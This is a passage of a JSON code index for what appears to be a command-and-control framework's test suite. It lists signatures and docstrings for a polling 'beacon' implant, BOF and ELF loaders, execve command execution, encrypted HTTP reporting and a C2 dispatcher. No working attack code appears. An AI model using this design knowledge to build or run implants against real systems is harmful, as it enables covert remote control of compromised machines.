{"doc": "Rebuild the beacon if it is missing or older than its sources.\n\ntest_install_deploy.py runs `make clean`, which deletes build/;\na bare `if not BEACON.exists()` check would then inspect a stale\nbinary from an earlier run.", "kind": "function", "line": 70, "name": "ensure_beacon", "signature": "def ensure_beacon()"}, {"kind": "function", "line": 84, "name": "test_beacon_compiles_and_links", "signature": "def test_beacon_compiles_and_links()"}, {"kind": "function", "line": 93, "name": "test_beacon_exposes_bof_api", "signature": "def test_beacon_exposes_bof_api()"}, {"kind": "function", "line": 113, "name": "test_beacon_exposes_elf_loader", "signature": "def test_beacon_exposes_elf_loader()"}, {"kind": "function", "line": 123, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated test for contract: beacon_common.c Extraction BDD-style tests derived from specification.", "id": "mutants/tests/test_beacon_common.c_extraction.py", "kind": "module", "label": "test_beacon_common.c_extraction.py", "language": "py", "sha256": "651e7d156613c6ef", "symbol_count": 0, "symbols": []}, {"id": "mutants/tests/test_beacon_common.c_extraction_c.c", "kind": "module", "label": "test_beacon_common.c_extraction_c.c", "language": "c", "sha256": "7f48ab2c7c8186b5", "symbol_count": 1, "symbols": [{"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Beacon Heartbeat / Health Endpoint BDD-style tests derived from specification.", "id": "mutants/tests/test_beacon_heartbeat___health_endpoint.py", "kind": "module", "label": "test_beacon_heartbeat___health_endpoint.py", "language": "py", "sha256": "d164b9766273c5ad", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Beacon Heartbeat / Health Endpoint.", "kind": "class", "line": 18, "name": "TestBeaconHeartbeatHealthEndpoint", "signature": "class TestBeaconHeartbeatHealthEndpoint"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_beacon_heartbeat___health_endpoint_c.c", "kind": "module", "label": "test_beacon_heartbeat___health_endpoint_c.c", "language": "c", "sha256": "6195d6a29720d8b0", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_beacon_heartbeat___health_endpoint_placeholder", "signature": "static void test_beacon_heartbeat___health_endpoint_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: BOF API Versioning BDD-style tests derived from specification.", "id": "mutants/tests/test_bof_api_versioning.py", "kind": "module", "label": "test_bof_api_versioning.py", "language": "py", "sha256": "e58713793f9b1950", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for BOF API Versioning.", "kind": "class", "line": 18, "name": "TestBOFAPIVersioning", "signature": "class TestBOFAPIVersioning"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_bof_api_versioning_c.c", "kind": "module", "label": "test_bof_api_versioning_c.c", "language": "c", "sha256": "5ff7f8944af9b7a7", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_bof_api_versioning_placeholder", "signature": "static void test_bof_api_versioning_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Verify every BOF compiles with the BOF build flags.  A BOF is a position-independent ELF object that the beacon loads at runtime. It must: - compile with -nostdlib (no glibc) - be PIC - export `go` with the right signature - leave BeaconPrintf/BeaconOutput as undefined external refs", "id": "mutants/tests/test_bof_compile.py", "kind": "module", "label": "test_bof_compile.py", "language": "py", "sha256": "fb790ea16680ac66", "symbol_count": 7, "symbols": [{"kind": "function", "line": 21, "name": "compile_bof", "signature": "def compile_bof(name)"}, {"kind": "function", "line": 35, "name": "inspect_symbols", "signature": "def inspect_symbols(obj_path)"}, {"kind": "function", "line": 53, "name": "test_compile_all", "signature": "def test_compile_all()"}, {"kind": "function", "line": 60, "name": "test_export_go", "signature": "def test_export_go()"}, {"kind": "function", "line": 68, "name": "test_unresolved_beacon_api", "signature": "def test_unresolved_beacon_api()"}, {"doc": "Make sure we did not pull in glibc symbols by accident.", "kind": "function", "line": 80, "name": "test_no_libc_leak", "signature": "def test_no_libc_leak()"}, {"kind": "function", "line": 91, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated test for contract: BOF Path Traversal Hardening BDD-style tests derived from specification.", "id": "mutants/tests/test_bof_path_traversal_hardening.py", "kind": "module", "label": "test_bof_path_traversal_hardening.py", "language": "py", "sha256": "ddfff926463ab9cd", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for BOF Path Traversal Hardening.", "kind": "class", "line": 18, "name": "TestBOFPathTraversalHardening", "signature": "class TestBOFPathTraversalHardening"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_bof_path_traversal_hardening_c.c", "kind": "module", "label": "test_bof_path_traversal_hardening_c.c", "language": "c", "sha256": "3e8288b23d62f6fc", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_bof_path_traversal_hardening_placeholder", "signature": "static void test_bof_path_traversal_hardening_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: BOF Streaming (Large Outputs) BDD-style tests derived from specification.", "id": "mutants/tests/test_bof_streaming_(large_outputs).py", "kind": "module", "label": "test_bof_streaming_(large_outputs).py", "language": "py", "sha256": "4a0976d3aa8ffc59", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for BOF Streaming (Large Outputs).", "kind": "class", "line": 18, "name": "TestBOFStreaming", "signature": "class TestBOFStreaming(LargeOutputs)"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_bof_streaming_(large_outputs)_c.c", "kind": "module", "label": "test_bof_streaming_(large_outputs)_c.c", "language": "c", "sha256": "6263cb6b34d795e3", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_bof_streaming_", "signature": "static void test_bof_streaming_(large_outputs)_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "End-to-end test: a real HTTP/1.1 client talks to a real TCP socket bound by server.serve(), and the full crypto roundtrip works.  This catches the wire-format mismatch that bit us before: the beacon speaks HTTP/1.1 (libcurl), the server used to expect a raw Gopher selector. They could not talk.  We use a free port, run the server in a daemon thread, and drive it with raw sockets — no libcurl, no real network loopback surprises.", "id": "mutants/tests/test_c2_http_e2e.py", "kind": "module", "label": "test_c2_http_e2e.py", "language": "py", "sha256": "79634b14cab365b4", "symbol_count": 9, "symbols": [{"kind": "function", "line": 43, "name": "_free_port", "signature": "def _free_port()"}, {"kind": "function", "line": 51, "name": "_recv_response", "signature": "def _recv_response(sock, timeout)"}, {"doc": "Beacon-style HTTP/1.1 GET /<uri>/<id> must return a base64\nbody the server can encrypt and we can decrypt with the shared\nAES key. Before the fix, the server returned iUNKNOWN_SELECTOR.", "kind": "function", "line": 65, "name": "test_http_get_poll_returns_encrypted_command", "signature": "def test_http_get_poll_returns_encrypted_command()"}, {"doc": "Beacon-style HTTP/1.1 POST /report/<b64> must reach the\nreport handler, decrypt, parse, and write a CSV row. Before\nthe fix, the POST went to the same URL as the GET (poll),\nso the server logged an UNKNOWN_SELECTOR error and the\nCSV never had a row for this client.", "kind": "function", "line": 115, "name": "test_http_post_report_writes_log", "signature": "def test_http_post_report_writes_log()"}, {"doc": "The old Gopher-style selector (single line, CRLF) must\nstill dispatch correctly — server.py keeps that path so\nanything that depended on it is not broken by the new\nHTTP/1.1 entry point.", "kind": "function", "line": 183, "name": "test_gopher_legacy_still_works", "signature": "def test_gopher_legacy_still_works()"}, {"doc": "The beacon percent-encodes the base64 payload before\nsplicing it onto the URL path. Standard base64 uses '+',\n'/', and '=' which would otherwise produce an invalid\nHTTP request line (extra '/' would split the path, '+'\nis space-encoded, '=' is a query marker). This test\nreplicates that: encode the payload exactly as the\nbeacon does, send it, and assert the report is decrypted\nand logged.", "kind": "function", "line": 233, "name": "test_http_post_with_url_encoded_b64_payload", "signature": "def test_http_post_with_url_encoded_b64_payload()"}, {"doc": "When the client sends a long POST URL that crosses a TCP\nsegment boundary, the first recv() inside server.serve() may\nnot include \"HTTP/1.1\" yet. Before the _read_http_request\nfix, this made the dispatcher fall through to the legacy\nGopher branch and return iUNKNOWN_SELECTOR. We reproduce that\nfragmentation here by sending the request in two pieces with\na small delay between them. The expected behavior is that the\nserver still parses the full request, decrypts, and writes\nthe log line.", "kind": "function", "line": 326, "name": "test_fragmented_post_is_dispatched_as_http", "signature": "def test_fragmented_post_is_dispatched_as_http()"}, {"kind": "function", "line": 399, "name": "main", "signature": "def main()"}, {"kind": "function", "line": 274, "name": "encode", "signature": "def encode(s)"}]}, {"doc": "Auto-generated test for contract: C2 REST API BDD-style tests derived from specification.", "id": "mutants/tests/test_c2_rest_api.py", "kind": "module", "label": "test_c2_rest_api.py", "language": "py", "sha256": "3b13edcee9920d1a", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for C2 REST API.", "kind": "class", "line": 18, "name": "TestC2RESTAPI", "signature": "class TestC2RESTAPI"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_c2_rest_api_c.c", "kind": "module", "label": "test_c2_rest_api_c.c", "language": "c", "sha256": "a7c93d0c15311d63", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_c2_rest_api_placeholder", "signature": "static void test_c2_rest_api_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Unit tests for the C2 server dispatcher.  We import the dispatcher from c2/server.py and exercise handle_request() with synthetic selectors. No socket, no threading, no real network - just the pure function.", "id": "mutants/tests/test_c2_server.py", "kind": "module", "label": "test_c2_server.py", "language": "py", "sha256": "5d0f0956b1abcb1f", "symbol_count": 11, "symbols": [{"kind": "function", "line": 39, "name": "make_state", "signature": "def make_state(tmp)"}, {"kind": "function", "line": 46, "name": "test_get_command_empty", "signature": "def test_get_command_empty()"}, {"kind": "function", "line": 58, "name": "test_get_command_queued", "signature": "def test_get_command_queued()"}, {"kind": "function", "line": 69, "name": "test_report_writes_log", "signature": "def test_report_writes_log()"}, {"kind": "function", "line": 85, "name": "test_bof_not_found", "signature": "def test_bof_not_found()"}, {"kind": "function", "line": 92, "name": "test_bof_serves_existing_file", "signature": "def test_bof_serves_existing_file()"}, {"kind": "function", "line": 104, "name": "test_unknown_selector", "signature": "def test_unknown_selector()"}, {"doc": "Path-traversal in /bof/ should be neutralised by os.path.basename.", "kind": "function", "line": 111, "name": "test_path_traversal_in_bof_name", "signature": "def test_path_traversal_in_bof_name()"}, {"doc": "encrypt then decrypt empty payload must yield single NUL byte.", "kind": "function", "line": 120, "name": "test_roundtrip_empty", "signature": "def test_roundtrip_empty()"}, {"kind": "function", "line": 127, "name": "test_roundtrip_text", "signature": "def test_roundtrip_text()"}, {"kind": "function", "line": 134, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for Certificate Pinning / TOFU (Contract: Certificate Pinning / TOFU)  BDD Scenarios: 1. Given a config with cert_fingerprint_sha256, when beacon connects, then it pins the certificate 2. Given a config without cert_fingerprint_sha256, when beacon connects first time, then it stores fingerprint (TOFU) 3. Given a mismatched fingerprint, when beacon connects, then it fails closed 4. Given valid fingerprint, when beacon connects, then it succeeds", "id": "mutants/tests/test_certificate_pinning.py", "kind": "module", "label": "test_certificate_pinning.py", "language": "py", "sha256": "69d28e533adbcc12", "symbol_count": 16, "symbols": [{"doc": "Test config loading for certificate pinning.", "kind": "class", "line": 23, "name": "TestCertificatePinningConfig", "signature": "class TestCertificatePinningConfig"}, {"doc": "Test C config loading for certificate pinning.", "kind": "class", "line": 86, "name": "TestCertificatePinningCConfig", "signature": "class TestCertificatePinningCConfig"}, {"doc": "Integration tests for certificate pinning with C2 server.", "kind": "class", "line": 96, "name": "TestCertificatePinningIntegration", "signature": "class TestCertificatePinningIntegration"}, {"doc": "Tests designed to kill mutants - each test targets a specific mutation.", "kind": "class", "line": 126, "name": "TestCertificatePinningMutationResistance", "signature": "class TestCertificatePinningMutationResistance"}, {"doc": "Given config with empty cert_fingerprint_sha256, when loaded, then fingerprint is empty string.", "kind": "method", "line": 26, "name": "test_config_loads_empty_fingerprint", "signature": "def test_config_loads_empty_fingerprint(self)"}, {"doc": "Given config with valid 64-char hex fingerprint, when loaded, then fingerprint is stored.", "kind": "method", "line": 38, "name": "test_config_loads_valid_fingerprint", "signature": "def test_config_loads_valid_fingerprint(self)"}, {"doc": "Given config with invalid fingerprint length, when loaded, then ValueError is raised.", "kind": "method", "line": 51, "name": "test_config_rejects_invalid_fingerprint_length", "signature": "def test_config_rejects_invalid_fingerprint_length(self)"}, {"doc": "Given config with non-hex fingerprint, when loaded, then ValueError is raised.", "kind": "method", "line": 62, "name": "test_config_rejects_non_hex_fingerprint", "signature": "def test_config_rejects_non_hex_fingerprint(self)"}, {"doc": "Given config without cert_fingerprint_sha256 field, when loaded, then defaults to empty string.", "kind": "method", "line": 73, "name": "test_config_defaults_to_empty_fingerprint", "signature": "def test_config_defaults_to_empty_fingerprint(self)"}, {"doc": "Given config with cert_fingerprint_sha256 field, when C loader parses, then field is accessible.", "kind": "method", "line": 89, "name": "test_c_config_parses_fingerprint_field", "signature": "def test_c_config_parses_fingerprint_field(self)"}, {"doc": "Given a beacon with a pinned certificate fingerprint,\nWhen it connects to C2 with matching cert,\nThen the connection succeeds.", "kind": "method", "line": 99, "name": "test_beacon_verifies_pinned_certificate", "signature": "def test_beacon_verifies_pinned_certificate(self)"}, {"doc": "Given a beacon with a pinned certificate fingerprint,\nWhen it connects to C2 with different cert,\nThen the connection fails (CURLE_SSL_PINNEDPUBKEYNOTMATCH).", "kind": "method", "line": 109, "name": "test_beacon_rejects_mismatched_certificate", "signature": "def test_beacon_rejects_mismatched_certificate(self)"}, {"doc": "Given a beacon with no pinned fingerprint (TOFU mode),\nWhen it connects to C2 for the first time,\nThen it stores the fingerprint for future connections.", "kind": "method", "line": 117, "name": "test_tofu_first_connection_stores_fingerprint", "signature": "def test_tofu_first_connection_stores_fingerprint(self)"}, {"doc": "Mutant: if (cfg->network.cert_fingerprint_sha256[0] != '\u0000') -> if (1)\nTest: Empty fingerprint should NOT enable pinning.", "kind": "method", "line": 129, "name": "test_fingerprint_empty_check_not_mutated_to_always_true", "signature": "def test_fingerprint_empty_check_not_mutated_to_always_true(self)"}, {"doc": "Mutant: hex validation regex changed to accept invalid chars\nTest: Non-hex chars must be rejected.", "kind": "method", "line": 139, "name": "test_fingerprint_hex_validation_not_mutated", "signature": "def test_fingerprint_hex_validation_not_mutated(self)"}, {"doc": "Mutant: CURLOPT_PINNEDPUBLICKEY set unconditionally\nTest: Pin option should only be set when fingerprint is non-empty.", "kind": "method", "line": 151, "name": "test_pin_option_set_only_when_fingerprint_present", "signature": "def test_pin_option_set_only_when_fingerprint_present(self)"}]}, {"doc": "Auto-generated test for contract: Certificate Pinning / TOFU BDD-style tests derived from specification.", "id": "mutants/tests/test_certificate_pinning___tofu.py", "kind": "module", "label": "test_certificate_pinning___tofu.py", "language": "py", "sha256": "b9d3ec138d675200", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Certificate Pinning / TOFU.", "kind": "class", "line": 18, "name": "TestCertificatePinningTOFU", "signature": "class TestCertificatePinningTOFU"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_certificate_pinning___tofu_c.c", "kind": "module", "label": "test_certificate_pinning___tofu_c.c", "language": "c", "sha256": "aec834c7b71446ab", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_certificate_pinning___tofu_placeholder", "signature": "static void test_certificate_pinning___tofu_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Command Execution via execve BDD-style tests derived from specification.", "id": "mutants/tests/test_command_execution_via_execve.py", "kind": "module", "label": "test_command_execution_via_execve.py", "language": "py", "sha256": "cdea5dae41e8d67d", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Command Execution via execve.", "kind": "class", "line": 18, "name": "TestCommandExecutionviaexecve", "signature": "class TestCommandExecutionviaexecve"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_command_execution_via_execve_c.c", "kind": "module", "label": "test_command_execution_via_execve_c.c", "language": "c", "sha256": "8ddee5a82b908ca8", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_command_execution_via_execve_placeholder", "signature": "static void test_command_execution_via_execve_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Unit tests for the BSB JSON config loader.  We exercise the loader via a small C harness compiled with the config.c source. The Python side just calls the harness binary and checks the printed fields.  The harness prints lines in the form \"key=value\" so we can parse the output deterministically.", "id": "mutants/tests/test_config.py", "kind": "module", "label": "test_config.py", "language": "py", "sha256": "6fb8d954b4b6ea83", "symbol_count": 9, "symbols": [{"doc": "Build the test harness against config.c.", "kind": "function", "line": 24, "name": "compile_harness", "signature": "def compile_harness()"}, {"doc": "Write a config file, run the harness, return parsed output.", "kind": "function", "line": 38, "name": "run_harness", "signature": "def run_harness(config_text)"}, {"kind": "function", "line": 55, "name": "test_default_load", "signature": "def test_default_load()"}, {"kind": "function", "line": 73, "name": "test_overrides", "signature": "def test_overrides()"}, {"kind": "function", "line": 90, "name": "test_missing_file", "signature": "def test_missing_file()"}, {"doc": "$BSB_CONFIG must take precedence over the binary-relative path.", "kind": "function", "line": 98, "name": "test_search_order_env_wins", "signature": "def test_search_order_env_wins()"}, {"doc": "With BSB_CONFIG unset, the harness resolves to ./config.json\n(the binary-relative lookup is irrelevant in the harness because\nthe harness lives in tests/, not next to a config.json).", "kind": "function", "line": 115, "name": "test_search_order_falls_back_to_cwd_default", "signature": "def test_search_order_falls_back_to_cwd_default()"}, {"kind": "function", "line": 141, "name": "test_bad_hex_key", "signature": "def test_bad_hex_key()"}, {"kind": "function", "line": 156, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated test for contract: Containerized Build + SBOM BDD-style tests derived from specification.", "id": "mutants/tests/test_containerized_build_+_sbom.py", "kind": "module", "label": "test_containerized_build_+_sbom.py", "language": "py", "sha256": "627c2606a3b5b8f8", "symbol_count": 0, "symbols": []}, {"id": "mutants/tests/test_containerized_build_+_sbom_c.c", "kind": "module", "label": "test_containerized_build_+_sbom_c.c", "language": "c", "sha256": "75c0f0122789b8ef", "symbol_count": 1, "symbols": [{"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Roundtrip tests for AES-256-CFB.  Verifies the C implementation in include/aes_cfb.c is internally consistent. Cross-implementation tests (C <-> Python) live in test_c2_server.py because the Python side runs inside the C2 server, not the test harness.", "id": "mutants/tests/test_crypto.py", "kind": "module", "label": "test_crypto.py", "language": "py", "sha256": "ae29a106cf479d1d", "symbol_count": 8, "symbols": [{"doc": "Build the harness if it is missing or older than its sources.\n\npytest imports this module and calls run() directly, so the build\ncannot live in main() alone -- another test runs `make clean` and\nwipes build/ mid-session. Rebuilding on staleness keeps both entry\npoints (pytest and `python3 tests/test_crypto.py`) working.", "kind": "function", "line": 27, "name": "compile_harness", "signature": "def compile_harness()"}, {"kind": "function", "line": 50, "name": "run", "signature": "def run(plaintext, key_hex)"}, {"kind": "function", "line": 59, "name": "test_short", "signature": "def test_short()"}, {"kind": "function", "line": 63, "name": "test_block_boundary", "signature": "def test_block_boundary()"}, {"kind": "function", "line": 68, "name": "test_longer_than_block", "signature": "def test_longer_than_block()"}, {"kind": "function", "line": 74, "name": "test_known_ciphertext", "signature": "def test_known_ciphertext()"}, {"doc": "The Python C2 server must be able to decrypt C-encrypted\ncommands. We feed a known key+plaintext through the C harness,\nextract the ciphertext, then decrypt with Python and check we\nrecover the original plain.", "kind": "function", "line": 93, "name": "test_python_can_decrypt_c_ciphertext", "signature": "def test_python_can_decrypt_c_ciphertext()"}, {"kind": "function", "line": 126, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated test for contract: HKDF Key Derivation BDD-style tests derived from specification.", "id": "mutants/tests/test_hkdf_key_derivation.py", "kind": "module", "label": "test_hkdf_key_derivation.py", "language": "py", "sha256": "149ab012e4fe340d", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for HKDF Key Derivation.", "kind": "class", "line": 18, "name": "TestHKDFKeyDerivation", "signature": "class TestHKDFKeyDerivation"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_hkdf_key_derivation_c.c", "kind": "module", "label": "test_hkdf_key_derivation_c.c", "language": "c", "sha256": "cde927cb3aa16be3", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_hkdf_key_derivation_placeholder", "signature": "static void test_hkdf_key_derivation_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "End-to-end test for the \"make beacon && ./build/beacon\" workflow.  After `make clean && make beacon bofs`, the operator expects: - build/beacon          runnable binary (mode 0755) - build/config.json     operator-only (mode 0600) - build/bof/*.x64.o     5 BOFs ready to copy to the C2  Running the binary from any CWD should pick up build/config.json (the binary-relative search path).", "id": "mutants/tests/test_install_deploy.py", "kind": "module", "label": "test_install_deploy.py", "language": "py", "sha256": "2c3f316262715cb3", "symbol_count": 8, "symbols": [{"doc": "Clean and build everything, return nothing.", "kind": "function", "line": 23, "name": "make_all", "signature": "def make_all()"}, {"doc": "Run the beacon from `cwd` and return (output, exit_code).\n\nexit_code is None when the 3s cap tripped, which is the expected\npath: the beacon polls the C2 forever, so it never exits on its\nown. (The bare main() runner handled TimeoutExpired inline;\npytest surfaces it as a failure, so it is normalised here.)", "kind": "function", "line": 29, "name": "run_beacon", "signature": "def run_beacon(binary, cwd)"}, {"doc": "The point of this whole iteration: `make beacon` leaves\na runnable binary with its config next to it, no env vars\nor extra steps required.", "kind": "function", "line": 56, "name": "test_build_beacon_lands_alongside_config", "signature": "def test_build_beacon_lands_alongside_config()"}, {"kind": "function", "line": 67, "name": "test_staged_files_have_correct_modes", "signature": "def test_staged_files_have_correct_modes()"}, {"doc": "Drop the operator in /tmp; the staged beacon should still\nfind build/config.json via the binary-relative search path.", "kind": "function", "line": 75, "name": "test_staged_beacon_runs_from_any_cwd", "signature": "def test_staged_beacon_runs_from_any_cwd()"}, {"kind": "function", "line": 90, "name": "test_staged_bofs_are_present", "signature": "def test_staged_bofs_are_present()"}, {"doc": "make clean must wipe build/ — including the staged config.json —\nbut leave config/config.json (the operator's copy) alone.\n\nThis is the last test that runs, so we leave the operator with a\nfresh deliverable tree afterwards. `make clean` is destructive\nand the operator's only copy of build/ is whatever the previous\ntest left behind; rebuilding here guarantees `./build/beacon`\nand the staged BOFs are present after `make test` finishes.", "kind": "function", "line": 98, "name": "test_clean_removes_everything", "signature": "def test_clean_removes_everything()"}, {"kind": "function", "line": 120, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated test for contract: IV Generation with Entropy Verification BDD-style tests derived from specification.", "id": "mutants/tests/test_iv_generation_with_entropy_verification.py", "kind": "module", "label": "test_iv_generation_with_entropy_verification.py", "language": "py", "sha256": "39466d679ff70639", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for IV Generation with Entropy Verification.", "kind": "class", "line": 18, "name": "TestIVGenerationwithEntropyVerification", "signature": "class TestIVGenerationwithEntropyVerification"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_iv_generation_with_entropy_verification_c.c", "kind": "module", "label": "test_iv_generation_with_entropy_verification_c.c", "language": "c", "sha256": "e69f69a8ee8ae7dc", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_iv_generation_with_entropy_verification_placeholder", "signature": "static void test_iv_generation_with_entropy_verification_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Mutation Testing Integration BDD-style tests derived from specification.", "id": "mutants/tests/test_mutation_testing_integration.py", "kind": "module", "label": "test_mutation_testing_integration.py", "language": "py", "sha256": "cb698b3533f075d3", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Mutation Testing Integration.", "kind": "class", "line": 18, "name": "TestMutationTestingIntegration", "signature": "class TestMutationTestingIntegration"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_mutation_testing_integration_c.c", "kind": "module", "label": "test_mutation_testing_integration_c.c", "language": "c", "sha256": "b1adf9c9b5a8fcf2", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_mutation_testing_integration_placeholder", "signature": "static void test_mutation_testing_integration_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Pre-commit + CI Hardening BDD-style tests derived from specification.", "id": "mutants/tests/test_pre-commit_+_ci_hardening.py", "kind": "module", "label": "test_pre-commit_+_ci_hardening.py", "language": "py", "sha256": "612b33b662fe36d5", "symbol_count": 0, "symbols": []}, {"id": "mutants/tests/test_pre-commit_+_ci_hardening_c.c", "kind": "module", "label": "test_pre-commit_+_ci_hardening_c.c", "language": "c", "sha256": "703c4ccf4568a95c", "symbol_count": 1, "symbols": [{"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Replay Protection BDD-style tests derived from specification.", "id": "mutants/tests/test_replay_protection.py", "kind": "module", "label": "test_replay_protection.py", "language": "py", "sha256": "90e14329bae09930", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Replay Protection.", "kind": "class", "line": 18, "name": "TestReplayProtection", "signature": "class TestReplayProtection"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_replay_protection_c.c", "kind": "module", "label": "test_replay_protection_c.c", "language": "c", "sha256": "55293bb91f8a7d34", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_replay_protection_placeholder", "signature": "static void test_replay_protection_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: SOCKS5 / HTTP Proxy Support BDD-style tests derived from specification.", "id": "mutants/tests/test_socks5___http_proxy_support.py", "kind": "module", "label": "test_socks5___http_proxy_support.py", "language": "py", "sha256": "d0cd29ef5cc44687", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for SOCKS5 / HTTP Proxy Support.", "kind": "class", "line": 18, "name": "TestSOCKS5HTTPProxySupport", "signature": "class TestSOCKS5HTTPProxySupport"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_socks5___http_proxy_support_c.c", "kind": "module", "label": "test_socks5___http_proxy_support_c.c", "language": "c", "sha256": "e3998fcc897d0678", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_socks5___http_proxy_support_placeholder", "signature": "static void test_socks5___http_proxy_support_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Structured JSONL Logging BDD-style tests derived from specification.", "id": "mutants/tests/test_structured_jsonl_logging.py", "kind": "module", "label": "test_structured_jsonl_logging.py", "language": "py", "sha256": "8798191aec282f1d", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Structured JSONL Logging.", "kind": "class", "line": 18, "name": "TestStructuredJSONLLogging", "signature": "class TestStructuredJSONLLogging"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_structured_jsonl_logging_c.c", "kind": "module", "label": "test_structured_jsonl_logging_c.c", "language": "c", "sha256": "24685fd29906d1a1", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_structured_jsonl_logging_placeholder", "signature": "static void test_structured_jsonl_logging_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: TLS Client Certificate Authentication BDD-style tests derived from specification.", "id": "mutants/tests/test_tls_client_certificate_authentication.py", "kind": "module", "label": "test_tls_client_certificate_authentication.py", "language": "py", "sha256": "6ffcf888d9d0d82c", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for TLS Client Certificate Authentication.", "kind": "class", "line": 18, "name": "TestTLSClientCertificateAuthentication", "signature": "class TestTLSClientCertificateAuthentication"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_tls_client_certificate_authentication_c.c", "kind": "module", "label": 